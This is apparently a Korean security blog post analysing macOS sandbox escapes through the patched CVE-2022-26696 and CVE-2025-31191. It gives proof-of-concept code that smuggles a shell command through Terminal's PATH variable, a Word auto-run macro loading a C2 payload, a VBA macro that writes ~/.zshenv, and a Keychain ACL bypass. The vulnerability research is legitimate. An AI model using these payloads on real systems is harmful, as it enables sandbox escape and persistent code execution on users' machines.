


[macOS: Part0 - TCC Bypass](https://hackyboiz.github.io/2025/01/19/clalxk/MacOS_TCC-Bypass_ko/)

[macOS: Part1 - SIP Bypass](https://hackyboiz.github.io/2025/05/11/clalxk/MacOS_SIP-Bypass_ko/) 


macOS: Part2 - Sandbox Escape ← Now!


안녕하세요~ clalxk입니다! 

오늘은 지난 Part1에 이어 Sandbox Escape에 대해 공부해봤습니다. 

macOS의 Sandbox 개념부터 1-day(CVE-2025-31191) 분석 내용으로 담았으니 함께 공부해보아요.. (찡긋_<)

## 0. App

Windows나 Linux를 사용하다 보면 macOS의 `App`이라는 개념이 생소하게 느껴질 수 있는데요. 생소할 뿐 어렵진 않습니다 b^_^b. 일반적으로는 하나의 실행파일(`.exe`, `a.out`)을 실행하면 곧바로 프로그램이 돌아가고, 필요한 라이브러리나 설정 파일은 시스템 어딘가에서 따로 로드되는 구조를 떠올리게 되죠.

예를 들어 Windows에서는 `notepad++.exe`를 실행하면, 그 파일 하나만으로 프로세스가 생성되고 동작을 시작합니다. 이 과정에서 필요한 `.dll` 라이브러리들은 시스템 폴더나 설치 경로에서 동적으로 불러오고, 환경 설정은 `.ini`나 레지스트리 같은 외부 위치에 저장되어 있습니다.

그러나! macOS에서는 이 구조가 조금 다릅니다.

macOS에서는 `App`이 단순한 실행파일(`.exe`, `.out`)이 아니라, **디렉토리 구조**를 가진 **[번들](https://en.wikipedia.org/wiki/Bundle_(macOS)(.app)**이에요. Finder에서는 하나의 앱처럼 보이지만 터미널에서 보면 `.app`은 디렉토리이고, 내부에는 실행파일뿐 아니라 필요한 **리소스, 설정파일, 플러그인, 코드 서명 정보 등**을 담고 있어요.

macOS는 앱을 ‘프로그램 하나’가 아니라, **앱이 실행되기 위한 모든 걸 묶은 패키지 단위로 다룬다**고 생각하시면 됩니다.

예시로 기본 계산기 앱을 살펴볼게요!


이 `Contents` 폴더 안엔 아래와 같은 요소들이 들어 있어요.

- `MacOS/`: 실행파일이 들어 있는 폴더
- `Info.plist`: 앱의 메타데이터를 담은 설정파일
- `Resources/`: 아이콘, 이미지, 언어팩, 리소스 등
- `PlugIns/`: (선택) 플러그인들
- `_CodeSignature/`: (선택) 코드서명 정보
- `version.plist`, `PkgInfo`: (선택) 기타 정보

`Info.plist` 는 앱에 대한 중요한 메타데이터를 담고 있는 XML 형식의 파일이에요.

여기에는 실행파일의 경로, 앱 이름, 번들 ID, 버전 등 다양한 정보가 들어갑니다.

```xml
<key>CFBundleExecutable</key>
<string>Calculator</string>

<key>CFBundleIdentifier</key>
<string>com.apple.calculator</string>
```

앱을 실행해볼까요?

### **0.1 Launching an App**

앱을 실행한다는 건 결국 어떤 **프로세스를 생성하는 것**을 의미합니다. 여기서 실행되는 프로세스는 `CFBundleExecutable` 키로 지정된 실행 파일이죠. 그럼 이 프로세스는 어떤 부모 프로세스 아래에서 실행될까요? 

** `CFBundleExecutable` : macOS 앱 번들의 설정 파일인 `Info.plist`에 들어가는 항목 중 하나로, `.app` 번들 안에서 실제로 실행될 바이너리 파일의 이름을 정의*


`open -a Calculator` 명령은 평소에 계산기 앱을 더블 클릭해서 실행하는 것과 동일한데요.

계산기가 실행된 상태에서 `ps` 명령어로 현재 실행 중인 프로세스들을 확인해봤습니다.

`/System/Applications/Calculator.app/Contents/MacOS/Calculator`가 실행 중이고, 프로세스 ID(PID)는 5012입니다. 그런데 부모 프로세스 ID(PPID)를 보면 `1`이에요!

macOS에서 PID 1은 `/sbin/launchd`입니다. 이 녀석은 macOS에서 **시스템 전체 및 사용자별 데몬/에이전트를 관리하는 관리자 역할**을 해요. Windows의 `services.exe`나 Linux의 `systemd`와 비슷하다고 생각하면 됩니다. launchd는 단순히 백그라운드 서비스만 관리하는 게 아니라, **모든 앱의 부모 역할**도 수행합니다. 

사용자들은 macOS에서 일반적으로 `.app`을 실행할 때, GUI에서 더블클릭하거나 `open -a` 같은 명령을 사용합니다. 이럴 경우 실제 앱은 `launchd`(PID 1)의 자식 프로세스로 실행돼요. 그렇기 때문에 모든 앱의 부모 역할을 수행할 수 있습니다. 다만 단점도 있는데요, 보통 다른 OS에서는 프로그램을 어떤 터미널, 셸, 데몬에서 실행했는지 **프로세스 트리(PPID)**를 따라가며 추적할 수 있어요. 하지만 macOS에서는 앱을 GUI에서 실행할 경우, **모든 앱이 launchd의 자식처럼 보이기 때문에**, 트리가 평평하게 보여서 깔끔하게 구조를 알 수 없어요. 

macOS Ventura 이전 버전에서는 open 명령어 없이 실행파일을 직접 호출해서 실행할 수 있었는데, 제대로 된 launchd 환경에서 실행되지 않으면  App Sandbox와 TCC를 보호하기 위해 macOS가 강제로 종료(SIGKILL)하도록 제한되었어요. 

```bash
$ /System/Applications/Calculator.app/Contents/MacOS/Calculator & 
$ ps -A -j | grep Calculator | grep -v grep
```

원래는 위 명령어처럼 실행파일을 직접 호출해서 실행하게 되면, 부모 프로세스가 `launchd`가 아니라 현재 터미널 세션의 PID를 부여 받았습니다. 즉, 터미널에서 직접 실행하면 그 프로세스는 터미널의 자식이 되었던거죠.

예시로 들었던 Calculator는 직접 호출이 되지 않아서, 테스트용 .app을 만들어서 PID와 PPID를 확인해봤습니다.

```bash
mkdir -p ~/MyApp.app/Contents/MacOS
echo -e '#!/bin/bash\nsleep 10' > ~/MyApp.app/Contents/MacOS/MyApp
chmod +x ~/MyApp.app/Contents/MacOS/MyApp

~/MyApp.app/Contents/MacOS/MyApp &
ps -A -j | grep MyApp

open -a MyApp
ps -A -j | grep MyApp
```




이렇게 터미널의 자식 프로세스로 동작하는 것을 확인했습니다! 

`launchd`는 이 외에도 다양한 기능을 맡고 있어요. 예를 들어, `LaunchAgents`나 `LaunchDaemons`를 통해 macOS에서 실행되는 백그라운드 서비스들을 관리하고 있어요. 오늘은 다루지 않을게요! 투비컨티뉴…..

지금까지 설명한 `.app`은 여러 종류의 번들 중 하나일 뿐인데요.

macOS에는 아래와 같이 다양한 번들 타입들이 존재합니다. (완전한 목록은 아닙니다ㅎㅎ;;)

- `.app` –  애플리케이션 번들로, 하나의 앱을 구성하는 모든 요소를 포함
- `.framework` – 프레임워크 번들로, `.dylib`처럼 로드 가능한 코드뿐만 아니라 리소스, 버전 정보 등을 포함 ( `dlopen()`으로 전체 프레임워크 번들을 로드할 수 있음)
- `.kext` –  커널 익스텐션 번들로, macOS 커널에 직접 로드되어 동작하는 확장 모듈
보안상의 이유로 Apple은 macOS 최신 버전들에서 사용을 점차 제한하고 있음
- `.plugin` – 플러그인 번들로, 메인 애플리케이션에서 로드되는 확장 모듈을 포함

이처럼 번들은 단순히 앱을 실행하기 위한 것 뿐만 아니라, macOS 전반에서 기능 확장과 모듈화된 구조를 지원하기 위한 핵심 구성 요소로 사용되고 있습니다. 이해가 잘 되셨나요? 

그렇담 다음으로 넘어갑니다~

## 1. App Sandbox

앞에서 macOS 앱이 `.app` 번들이라는 구조를 가지고 있는 것을 확인했습니다. 이번엔 그 앱이 시스템에서 어떻게 실행되고, 또 얼마나 제약을 받는지 알아볼텐데요. 

오늘의 핵심 내용인 **샌드박스(Sandbox)**라는 개념입니다!

보안 관점에서 보면, 이상적인 컴퓨터는 믿을 수 없는 코드를 아예 실행하지 않는 컴퓨터겠죠. 하지만 컴퓨터를 사용하다보면 다양한 앱을 설치하고 실행하고 있으니 이건 불가능한 얘기예요… 그래서 macOS는 아예 ‘**앱을 제한된 울타리 안에서만 돌아가게 하자!**’는 방식으로 보안을 설계했습니다. 그 울타리가 바로 **App Sandbox인데요**. 이름 그대로, 앱을 ‘상자’ 안에 가둬놓고 **밖으로 못 나가게 막아버리는 구조**인 거죠.

앱이 샌드박스 안에서 실행되면, 아래와 같은 항목들이 제한되기 때문에 기본적으로는 아무것도 할 수 없어요.

| 제한 항목 | 설명 |
| --- | --- |
| 파일 시스템 | 사용자 홈 디렉토리를 포함한 모든 파일 접근 차단 |
| 네트워크 | 인터넷 접속 및 소켓 통신 차단 |
| 마이크·카메라 | 직접 접근 불가능 (TCC 승인 필요) |
| 사진 라이브러리 | 접근 불가능 (별도 권한 필요) |
| 시스템 API | 시스템 호출 및 프로세스 제어 등 차단 |
| 자식 프로세스 | 생성 가능하더라도 동일한 샌드박스가 상속됨 |

그러나.. 앱의 필수 기능이 제한되지 않도록.. 특정한 권한만 예외적으로 허용해주도록 했습니다.

이미지 편집 앱을 예로 들어볼게요. 사용자가 지정한 폴더에서 이미지를 열고 저장해야 하는데, 앱이 샌드박스 안에서 동작하려면 특정 권한이 **예외적으로 허용**되어야 해요. 이걸 설정하는 것이 바로 `Entitlements`입니다. 

** `Entitlements` : 앱이 코드 서명될 때 함께 정의되는 권한 선언 정보를 뜻합니다.*

### 1.1 Entitlements란?

앱이 코드 서명될 때 함께 정의되는 **권한 선언 정보**를 뜻하는 것으로, 필요한 권한을 하나씩 추가하면 되는데, 아래와 같은 형식으로 작성하면 됩니다.

| Entitlement 키 | 설명 |
| --- | --- |
| `com.apple.security.network.client` | 네트워크 사용 가능 |
| `com.apple.security.files.user-selected.read-write` | 사용자가 선택한 파일에 읽기/쓰기 가능 |
| `com.apple.security.assets.pictures.read-write` | 사진 폴더 접근 가능 |
| `com.apple.security.device.camera` | 카메라 접근 가능 |

즉, 앱은 기본적으로는 아무것도 못 하지만, 사용자가 허용한 권한에 한해서만 동작할 수 있는 거예요.

`Entitlements`는 일반적으로 XML 형식의 `.entitlements` 파일로 작성되며, Xcode에서는 Target > Signing & Capabilities 탭에서 시각적으로 추가할 수 있어요.

++  샌드박스를 사용할 땐 아래와 같이 꼭 선언해야 해요. 

```xml

<key>com.apple.security.app-sandbox</key>
<true/>
```

이 키가 선언되어 있어야 macOS는 해당 앱을 **샌드박스 모드로 실행**하게 됩니다.

### 1.2 TCC

macOS를 쓰다 보면 이런 메시지를 본 적 있으실 거예요.

> “@@@ 앱이 ‘Documents’ 폴더에 접근하려고 합니다. 허용하시겠습니까?”
> 

이 메시지는 단순한 알림이 아니라, macOS의 보안 시스템 중 하나인 **TCC**(Transparency, Consent, and Control)에 의해 나타나는 경고입니다. 앱이 민감한 데이터에 접근하려 할 때, macOS는 무조건 먼저 사용자에게 **명시적으로 동의**를 구합니다. 이런 과정을 통해 macOS는 사용자 동의 없이는 앱이 중요한 자원에 접근하지 못하도록 막고 있어요.

## 2. Sandbox Escape

지금까지 macOS의 App Sandbox가 얼마나 단단하게 설계되어 있는지 알아보았는데요!

그렇다면 이걸 **우회해서 샌드박스를 빠져나오는 게 가능할까요?**

당연히 쉽지 않습니다….

macOS는 앱의 권한을 철저히 제한하고, 시스템 자원에 대한 접근도 이중으로 통제하고 있기 때문에 허술한 구조만 노려서는 샌드박스 바깥으로 빠져나오기 어렵습니다.

하지만 그럼에도 취약점은 있었는데요. macOS에서 **샌드박스를 우회할 수 있었던 사례들을 분석하여 더 자세히 알아보도록 할게요!** 

### 2.1 CVE-2022-26696: Terminal.app을 통한 Sandbox Escape

CVE-2022-26696는 샌드박스된 앱이 `Terminal.app`을 실행할 때 **특정 환경 변수**를 설정하면, Terminal이 그 환경을 그대로 물려받아 샌드박스를 벗어날 수 있는 취약점이었어요.

Terminal 내부 코드를 보면, `isRunningInInstallEnvironment()` 함수에서 환경변수 설정을 확인하고 있는 것을 볼 수 있습니다. 

```bash
+(char)isRunningInInstallEnvironment {
    if (*(int8_t *)byte_10010617c == 0x1) {
        rax = *(int8_t *)byte_10010617b;
    } else {
        COND = getenv("__OSINSTALL_ENVIRONMENT") != 0x0;
        rax = COND_BYTE_SET(NE);
        *(int8_t *)byte_10010617b = COND ? 0x1 : 0x0;
        *(int8_t *)byte_10010617c = 0x1;
    }
    rax = sign_extend_64(rax);
    return rax;
}

```

이는 내부적으로 `__OSINSTALL_ENVIRONMENT`라는 환경 변수가 설정되어 있는지 확인하고, 설정되어 있다면 Terminal은 **BaseSystem 환경에서 실행된 것**으로 판단합니다.

** macOS 설치 USB를 부팅했을 때의 설치 UI, macOS 복구 모드(Recovery Mode), BaseSystem.dmg를 마운트한 최소한의 시스템 환경 등*

```bash
-(void *)init {
    var_30 = self;
    *(&var_30 + 0x8) = *0x1000f4790;
    rax = [[&var_30 super] init];
    r14 = rax;
    if (rax != 0x0) {
        if (*qword_100105e38 == 0x0) {
            *qword_100105e38 = r14;
        }
        rbx = [[[NSProcessInfo processInfo] environment] mutableCopy];
        if ([objc_opt_class(r14) **isRunningInInstallEnvironment**] == 0x0) {
            [rbx removeObjectForKey:@"HOME"];
            [rbx removeObjectForKey:@"USER"];
            [rbx removeObjectForKey:@"LOGNAME"];
            [rbx removeObjectForKey:@"PATH"];
            [rbx removeObjectForKey:@"SHELL"];
        }

```

`init` 함수 내에서 `isRunningInInstallEnvironment()` 값이 `NO`이면, Terminal은 `HOME`, `PATH` 등 주요 환경 변수를 지우도록 설계되어 있어요. 그런데 이 값이 `YES`일 경우, 환경 변수들이 지워지지 않고 그대로 유지됩니다. 결국, `__OSINSTALL_ENVIRONMENT=1` 환경 변수 하나만 설정하면, Terminal.app은 환경 변수를 삭제하지 않고 그대로 실행된다는 것인데요. 이걸 이용하면 **샌드박스된 앱이 Terminal을 실행하면서 쉘 명령어를 실행**할 수 있게 됩니다.

이 취약점을 활용해서 샌드박스 앱 내부에서 아래와 같은 동작을 수행하면 원하는 결과를 얻을 수 있습니다!

1. `__OSINSTALL_ENVIRONMENT=1` 환경 변수와 함께 Terminal.app 실행
2. `PATH` 환경변수에 악성 명령어 삽입 → `$(malicious_command)` 형태
3. Terminal이 환경변수를 그대로 받아 실행 
4. 샌드박스 앱을 우회하여 악성 명령어 실행 

```bash
void sbxWithShellCommand(NSString *command) {
    FSRef appFSURL;
    NSString *path = @"/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal";
    OSStatus stat2 = FSPathMakeRef((const UInt8 *)[path UTF8String], &appFSURL, NULL);
    if (stat2 < 0) {
        NSLog(@"Something wrong: %d",stat2);
    }

    LSApplicationParameters appParam;
    appParam.version = 0;
    appParam.flags = kLSLaunchDefaults;
    appParam.application = &appFSURL;
    appParam.argv = NULL;

    // 실행할 커맨드를 환경변수로 전달
    NSString *finalCommand = [NSString stringWithFormat:@"$(%@)", command];
    NSDictionary *envs = @{@"PATH":finalCommand, @"__OSINSTALL_ENVIRONMENT":@"1"};
    appParam.environment = (__bridge CFDictionaryRef)envs;
    appParam.asyncLaunchRefCon = NULL;
    appParam.initialEvent = NULL;

    CFArrayRef array = (__bridge CFArrayRef)@[];
    OSStatus stat = **LSOpenURLsWithRole**(array, kLSRolesAll, NULL, &appParam, NULL, 0);

    if (stat < 0) {
        NSLog(@"Something wrong: %d", stat);
    }
}

```

Apple의 [**LaunchServices API**](https://developer.apple.com/documentation/coreservices/launch_services)인 `LSOpenURLsWithRole()`을 이용해 Terminal을 실행하고, 그때 환경변수로 쉘 명령어를 넘기게 됩니다.

추가적으로, 이 취약점은 Microsoft Word 매크로 안에서도 활용할 수 있었습니다!

```bash
Sub AutoOpen()
MacScript ("do shell script ""open -b com.apple.terminal --env __OSINSTALL_ENVIRONMENT=1 --env PATH='$(/usr/bin/osascript -l JavaScript /path/.apfell.js)'"" ")
End Sub
```

Word 문서 내 매크로에 포함시켜 **Mythic C2의 JXA Payload**를 로드할 수 있습니다.

++ Apple은 이 취약점을 CVE-2022-26696으로 지정해 Terminal이 `__OSINSTALL_ENVIRONMENT` 환경변수를 더 이상 신뢰하지 않도록 수정했습니다.

제 터미널(v2.14)을 기준으로 각 함수들을 확인해보았습니다. 


단순히 환경변수를 필터링하는 수준이 아니라, **더 다양한 보안 조건을 체크하고, 내부 상태도 구조적으로 초기화**하도록 변경되었어요. 

단순히 `__OSINSTALL_ENVIRONMENT` 에 의존하던 구조를 걷어내고, Terminal이 **정상적인 launchd 환경에서만 동작하도록 보안 기반을 강화한 것**입니다. 이 후로도 Launch Services가 **XPC 클라이언트가 샌드박스 상태인지 여부를 인식하도록 변경되었어요.**

[TTApplication init] 코드

```bash
TTApplication *__cdecl -[TTApplication init](TTApplication *self, SEL a2)
{
  TTApplication *v2; // rax
  TTApplication *v3; // rbx
  id v4; // rax
  id v5; // rax
  id v6; // r14
  void *v7; // rax
  id v8; // rax
  id v9; // rax
  id v10; // rax
  id v11; // rax
  struct objc_super v13; // [rsp+0h] [rbp-30h] BYREF

  v13.receiver = self;
  v13.cls = &OBJC_CLASS___TTApplication;
  v2 = (TTApplication *)objc_msgSendSuper2(&v13, "init");
  v3 = v2;
  if ( v2 )                                     // rax
  {
    if ( !qword_1000FFE38 )
      qword_1000FFE38 = v2;
    v4 = objc_msgSend(&OBJC_CLASS___NSProcessInfo, "processInfo");
    v5 = objc_msgSend(v4, "environment");
    v6 = objc_msgSend(v5, "mutableCopy");
    v7 = (void *)objc_opt_class(v3);
    if ( !(unsigned __int8)objc_msgSend(v7, "isRunningInInstallEnvironment") )
    {
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFD90);// "HOME"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDB0);// "USER"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDD0);// "LOGNAME"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFDF0);// "PATH"
      objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE10);// "SHELL"
      if ( (unsigned int)csr_check(2LL) )
        objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE30);
    }
    objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE50);
    objc_msgSend(v6, "removeObjectForKey:", &off_1000CFE70);
    v3->_initialEnvironment = (NSDictionary *)objc_msgSend(v6, "copy");
    objc_release(v6);
    objc_msgSend(v3, "setDelegate:", v3);
    v8 = objc_alloc(&OBJC_CLASS___NSMutableIndexSet);
    v3->_availableEquivalents = (NSMutableIndexSet *)objc_msgSend(v8, "initWithIndexesInRange:", 1LL, 9LL);
    v3->_windowEquivalents = (NSMutableDictionary *)objc_alloc_init(&OBJC_CLASS___NSMutableDictionary);
    v9 = objc_msgSend(&OBJC_CLASS___NSUserDefaults, "standardUserDefaults");
    v10 = objc_msgSend(v9, "objectForKey:", off_1000FF878);
    if ( v10 )
      objc_msgSend(v3, "setDefaultShell:", v10);
    objc_msgSend(v3, "addObserver:forKeyPath:options:context:", v3, &off_1000CFE90, 11LL, &unk_1000A4548);
    v11 = objc_msgSend(&OBJC_CLASS___NSNotificationCenter, "defaultCenter");
    objc_msgSend(
      v11,
      "addObserver:selector:name:object:",
      v3,
      "handleWindowKeyChange:",
      NSWindowDidBecomeKeyNotification,
      0LL);
    v3->_currentWorkspace = (TTWorkspace *)objc_alloc_init(&OBJC_CLASS___TTWorkspace);
    objc_msgSend(&OBJC_CLASS___NSColor, "setIgnoresAlpha:", 0LL);
    objc_msgSend(v3, "initLowSwapSpaceWatcher");
  }
  return v3;
}
```

---


### 2.2 CVE‑2025‑31191: Security‑Scoped Bookmarks 기반 Sandbox Escape

CVE‑2025‑31191는 macOS에서 샌드박스된 앱이 **Security‑Scoped Bookmark**를 악용해 사용자 승인 없이도 시스템 자원에 접근할 수 있도록 허용했던 구조적 허점을 기반으로 합니다.  

2.1에서 살펴본 CVE-2022-26696 외에도 다양한 Launch Services 기반 취약점들이 존재했는데요. 이후 Apple은 이러한 취약점들을 방지하기 위해 Launch Services 내부에서도 App Sandbox 정책을 강화했습니다. 이제는 XPC 클라이언트가 샌드박스 상태인지 여부를 인식하게 되었고, 이로 인해 **CVE-2022-26706**, **CVE-2021-30864**, **CVE-2022-26696** 같은 과거 취약점들은 더 이상 유효하지 않게 되었죠.

이러한 변화는 Microsoft Office for macOS 환경에도 영향을 주었습니다. Office 앱 역시 macOS의 샌드박스 정책을 엄격히 따르도록 구성되어 있어, 예전처럼 매크로를 이용해 손쉽게 초기 침투를 시도하기는 어려운 구조가 되었어요. 그러나, 위협 가능성이 남아 있는 기능들을 중심으로 **파일 접근 권한을 토큰처럼 저장해 둘 수 있는 SSB(Security‑Scoped Bookmark)** 기능을 주요 대상으로 삼아 분석을 진행했습니다.

> **Security‑Scoped Bookmark?**

macOS는 보안을 위해 앱의 파일 접근 권한을 제한하고 있고, 사용자의 명시적인 승인이 없이는 외부 파일에 접근할 수 없습니다. 그런데 이때 사용하는 대표적인 기능 중 하나가 바로 **Security‑Scoped Bookmark**입니다.

이 Bookmark는 사용자가 특정 파일이나 디렉토리에 접근을 승인하면, 해당 자원에 대한 **접근 권한**을 토큰처럼 저장해 둘 수 있게 해줘요. 앱은 이 Bookmark를 저장해두었다가 나중에 다시 사용해도 사용자 승인을 다시 받지 않고 파일에 접근할 수 있게 됩니다.

macOS용 Office 환경에서 위 기능과 관련된 두 가지 주요 VBA API가 새롭게 도입되었습니다.

- **AppleScriptTask**
    
    매크로가 미리 지정된 AppleScript를 실행할 수 있게 해주는 API입니다. 하지만 이 스크립트는 `~/Library/Application Scripts/[번들 ID]/` 경로에 존재해야 하며, Office 앱 내부에서 이 경로에 접근해 파일을 작성할 수 없기 때문에 매크로를 이용한 샌드박스 escape 에는 활용하기 어려웠습니다.
    
- **GrantAccessToMultipleFiles**
    
    이 API는 매크로 내부에서 사용자가 여러 파일을 선택해 승인하도록 유도한 뒤, 그 파일들에 샌드박스 외부에서도 접근할 수 있게 해주는 기능이에요. 특히 대용량 작업에서 유용하게 쓰일 수 있죠.
    

이 중 `AppleScriptTask`는 보안적으로 큰 문제가 없어 보였기에, `GrantAccessToMultipleFiles` API를 중심으로 본격적인 분석을 진행했어요.

> **SSB 악용**

`GrantAccessToMultipleFiles` API를 이용하면 사용자가 수동으로 파일을 선택하고 승인하는 과정을 통해 샌드박스 외부 파일에 접근할 수 있게 되는데, 이 과정에서 **사용자의 파일 접근 승인이 재부팅 후에도 유지**된다는 것을 알게 되었습니다. 즉, 이 승인 정보는 어딘가에 **영구 저장**되고 있고, 이를 악용하면 사용자의 추가 승인 없이도 샌드박스를 벗어난 파일 접근이 가능해지는 것이죠..!!

이를 토대로 아래와 같은 시나리오를 세워볼 수 있었는데요. 

1. 사용자가 정상적으로 파일을 선택하여 접근 권한 부여
2. 이 권한은 Security‑Scoped Bookmark 형태로 저장
3. 악성 매크로는 이 bookmark를 악용하여 아무런 추가 승인을 받지 않고 특정 파일에 접근
4. 예를 들어 `~/.zshenv` 같은 초기 실행 파일 조작 → 샌드박스 외부에서 명령 실행 가능

> **매크로를 통한 SSB 악용**

위 시나리오를 토대로 아래와 같이 테스트해보았습니다.

1. Excel 또는 Word 실행 후 새 문서 열기
2. 단축키 `Alt + F11` → VBA 편집기 열기
3. 상단 메뉴에서 `Insert > Module` 선택
4. 코드 붙여넣고 실행        
```bash
        Sub Poc_GrantAccess()
            Dim scptPath As String
            Dim fileAccessGranted As Boolean
            Dim filePermissionCandidates
            Dim payload As String
        
            ' Set the payload
            payload = "echo pwn"
        
            ' Grant file permissions
            scptPath = "/Users/" & Environ("USER") & "/.zshenv"
            filePermissionCandidates = Array(scptPath)
            fileAccessGranted = GrantAccessToMultipleFiles(filePermissionCandidates)
        
            ' Create an Application Script
            Open scptPath For Output As #1
            Print #1, payload
            Close #1
        End Sub
        
```
        


이처럼 사용자의 승인 정보를 기반으로 만들어진 SSB가 악용되면, 그 이후의 접근은 **샌드박스 정책의 보호를 우회**하는 경로로 작동할 수 있습니다. 


echo pwn 이 잘 실행되었습니다. 

**SSB 저장 위치 및 구조 분석**

이 Bookmark가 어디에 저장되는지 확인해본 결과, 사용자의 선택(파일 접근 승인 여부)을 저장하는 데이터는 **Containers 디렉토리 내부의 PLIST 파일**에 저장되고 있었어요. 


이 `Containers` 디렉토리는 App Sandbox의 제약을 받지 않는 특수한 위치라서, 샌드박스된 앱이라도 이 디렉토리 안의 파일에는 **자유롭게 접근**할 수 있습니다. 따라서 악성 앱이 이 PLIST 파일을 조작하여 SSB를 인위적으로 삽입할 수 있다면, 별도의 사용자 승인 없이 임의의 파일 접근 권한을 탈취할 수 있다는 의미죠! 

하지만.. 이 PLIST 파일은 단순한 텍스트가 아닌 **서명된 바이너리 형식**으로 구성되어 있어요. 따라서 무작정 값을 덮어쓰거나 entry를 추가하는 건 쉽지않았습니다…

> **ScopedBookmarkAgent 분석**

이 동작 방식을 좀 더 깊이 이해하기 위해 macOS의 관련 모듈들을 리버싱하며 구조를 분석해봤습니다.

기본적으로 샌드박스된 앱은 사용자로부터 Open dialog를 통해 파일 접근 승인을 받아야만 외부 파일에 접근할 수 있어요. 이 Open dialog는 `com.apple.appkit.xpc.openAndSavePanelService.xpc`라는 샌드박스 외부 서비스가 담당합니다.

사용자가 파일을 선택하면, 이 서비스는 선택된 파일에 대한 접근 권한을 샌드박스 확장(Sandbox Extension) 형태로 앱에게 전달합니다. 이 확장은 커널에서 생성되어 `HMAC-SHA256`으로 서명된 토큰이며 실제 파일 경로, 권한 정보(`com.apple.app-sandbox.read-write` 등), 파일 메타데이터 등이 포함되어 있어요. 이 확장을 받은 앱은 `libsystem_sandbox.dylib` 하위 API를 통해 파일에 접근할 수 있게 됩니다. 

하지만 이 확장 토큰은 **재부팅 시마다 무효화**된다는 제약이 있었죠.

이를 해결하기 위해 Apple은 새로운 비샌드박스 프로세스인 **ScopedBookmarkAgent**를 도입했습니다. 이 Agent는 아래와 같은 두 가지 역할을 수행해요.

1. 받은 샌드박스 확장을 검증 후, 장기 보관 가능한 Bookmark 객체로 변환
2. 저장된 Bookmark 데이터를 기반으로, 새로운 샌드박스 확장 토큰을 생성하여 전달

예를 들어 Microsoft Office 같은 앱은 다음과 같은 흐름으로 SSB를 사용할 수 있어요!

- 사용자가 파일 접근을 승인 → `securebookmarks.plist`에 bookmark 저장
- 이후 동일한 파일 접근 시 → ScopedBookmarkAgent를 통해 bookmark → 새로운 확장 토큰 생성

이 bookmark 객체 역시 HMAC-SHA256으로 서명되어 있는데, 이때 사용하는 키는 아래와 같이 계산됩니다.

```
cryptoKey = HMAC-SHA256(secret, "[bundle-id]")
```

이때 사용되는 `secret`은 **macOS Keychain**의 `com.apple.scopedbookmarksagent.xpc` 항목에 저장되어 있어서, 공격자가 임의로 bookmark를 서명하거나 조작하는 건 매우 어렵게 설계되어 있어요.. 결국 공격자가 sandbox escape를 위해 bookmark를 위조하려면 **ScopedBookmarkAgent의 서명 키를 탈취하거나**, 유효한 bookmark를 우회적으로 삽입할 수 있어야 합니다.. 좀 복잡하죠?

> **Keychain ACL 우회**


macOS에서 **Keychain**(키체인)은 암호나 인증서를 안전하게 저장하는 공간이에요. Windows의 Credential Manager와 유사하다고 볼 수 있어요. 
이 Keychain의 중요한 특징은, **각 항목에 대해 접근 가능한 프로세스를 지정하는 ACL**(Access Control List)이 있다는 점입니다.

관심있게 본 키체인 항목은 바로 `com.apple.scopedbookmarksagent.xpc` 항목이었고, 이 항목은 오직 **ScopedBookmarkAgent**만 접근할 수 있도록 ACL이 설정되어 있었습니다. 

그런데…! 이 ACL은 **‘읽기’ 권한만 제어**한다는 사실을 발견했어요.


즉, 기존 항목을 **삭제하고**, 공격자가 만든 **새 항목을 같은 이름으로 등록**하는 건 가능했던 거예요!

심지어 새 항목에 대한 **ACL도 공격자가 직접 설정**할 수 있었고, ScopedBookmarkAgent가 자유롭게 접근할 수 있도록 구성할 수도 있었어요.



이렇게 명령어를 통해 확인해볼 수 있었습니다. 

결과적으로, 공격자가 고정된 secret 값을 갖는 새로운 항목을 만들어두면, ScopedBookmarkAgent는 아무런 의심 없이 그 키를 받아들여 서명 검증에 사용하게 되는 거죠.

위 내용을 토대로 공격자는 키체인의 ACL 구조와 서명 키 파생 구조를 악용하여, **임의의 SSB를 조작·서명하고**, 이를 통해 **샌드박스 우회 경로를 확보**할 수 있습니다. 

